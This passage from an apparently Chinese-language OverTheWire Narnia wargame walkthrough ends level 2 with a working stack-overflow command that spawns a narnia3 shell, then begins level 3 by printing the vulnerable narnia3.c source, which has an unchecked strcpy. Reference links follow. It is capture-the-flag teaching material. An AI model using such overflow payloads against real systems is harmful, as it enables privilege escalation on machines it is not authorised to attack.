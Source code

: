 ```sh
narnia2@melinda:/tmp/ya2$ /narnia/narnia2 `python -c 'print "A"*140 + "\x45\xd9\xff\xff"'`
$ whoami
narnia3
```


------

## Level 3: 堆栈溢出,文件, 和符号链接

### Step 1: 理解问题

第四关以此开始:

```sh
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
narnia3@melinda:/narnia$ cat narnia3.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP